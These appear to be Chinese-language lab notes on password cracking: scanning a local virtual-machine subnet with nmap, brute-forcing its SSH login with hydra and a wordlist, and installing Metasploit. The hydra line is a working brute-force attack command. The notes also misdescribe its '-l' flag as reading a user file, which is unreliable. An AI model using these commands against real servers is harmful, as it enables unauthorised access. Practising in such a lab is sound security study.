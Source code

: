 





wifi密碼破解: [黑客暴力破解必備的12大逆向工具](https://kknews.cc/zh-tw/code/22xkgag.html)





#### 使用遠端破解密碼

SSH: [Gain SSH Access to Servers by Brute-Forcing](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)、[hydra破解工具](https://tw511.com/a/01/33673.html)

可以使用單人模式進行破解

但我們這裡使用`nmap`和`hydra`進行破解

nmap: 可以獲得虛擬機的資訊

hydra: 可以對帳號密碼使用暴力破解，不過需要提供字典，可以上網使用rockyou.txt

```
sudo apt-get install nmap  ## 安裝套件，centos 使用 yum install nmap

nmap -A 192.168.157.0/24  ## 對目前的區域網路進行掃瞄，會拿到有連線到目前區域的IP(192.168.157.128)

ssh user1@192.168.157.128  ## 需要使用者帳密
```



```
sudo apt install hydra  ## 安裝套件

hydra -l user.txt -P passwords.txt -t 4 192.168.157.128 ssh  ## -t代表開4個線程，比較快
```

上面hydra可以遠端破解，可以把user.txt檔案裏面的user使用password.txt暴力破解













[centos install msfconsole](https://computingforgeeks.com/install-metasploit-framework-on-centos-linux/)

[centos install hydra](https://installati.one/centos/7/hydra/)

 yum install -y dnf 

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

chmod +x msfinstall

./msfinstall

msfdb init 
```
